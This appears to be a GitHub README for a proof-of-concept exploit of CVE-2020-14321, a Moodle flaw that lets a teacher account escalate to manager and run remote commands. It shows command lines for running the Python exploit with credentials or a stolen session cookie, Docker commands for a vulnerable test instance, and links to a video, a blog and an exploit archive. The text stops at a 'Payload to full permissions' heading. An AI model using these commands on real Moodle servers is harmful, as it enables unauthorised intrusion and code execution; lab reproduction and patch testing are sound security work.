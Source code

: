 # CVE-2020-14321
Course enrolments allowed privilege escalation from teacher role into manager role to RCE

## Maybe someone needs Python script, therefore, I have written it to exploit.
# How to use this PoC:
```
How to use this PoC script
    Case 1. If you have vaid credentials:
    python3 cve202014321.py -u http://test.local:8080 -u teacher -p 1234 -cmd=dir
    Case 2. If you have valid cookie:
    python3 cve202014321.py -u http://test.local:8080 -cookie=37ov37abn9kv22gj7enred9bl7 -cmd=dir
```
PoC with script:

![image](https://user-images.githubusercontent.com/24661746/122666659-e16b9f80-d1d8-11eb-8bdf-98cd6cf1acfd.png)

# How to use docker
```
docker pull hoangkien1020/moodle:cve202014321

docker run -d --rm -it -p 8080:80 hoangkien1020/moodle:cve202014321

Access your IP/domain with 8080 port.

```
# Video PoC
https://vimeo.com/441698193
# My blog about PoC
https://hocvahoc.me/index.php/2020/07/25/tu-quyen-teacher-len-rce-nhu-the-nao-trong-moodlecve-2020-14321/
# Source
https://moodle.org/mod/forum/discuss.php?d=407393
# Link to Download rce.zip
https://github.com/HoangKien1020/Moodle_RCE
# Payload to full permissions